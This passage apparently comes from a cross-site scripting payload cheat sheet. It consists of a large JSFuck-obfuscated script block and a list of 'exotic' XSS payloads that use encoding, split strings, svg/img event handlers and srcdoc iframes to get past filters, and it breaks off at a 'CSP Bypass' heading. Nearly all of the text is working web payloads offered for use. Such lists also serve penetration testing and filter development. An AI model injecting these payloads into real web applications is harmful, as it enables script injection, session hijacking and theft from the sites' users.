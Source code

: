```javascript
<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>
```

Exotic payloads

```javascript
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img/id="alert&lpar;&#x27;XSS&#x27;&#x29;\"/alt=\"/\"src=\"/\"onerror=eval(id&#x29;>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert&#40;&#39;1&#39;&#41</x>
<iframe src=""/srcdoc='&lt;svg onload&equals;alert&lpar;1&rpar;&gt;'>
```

## CSP Bypass
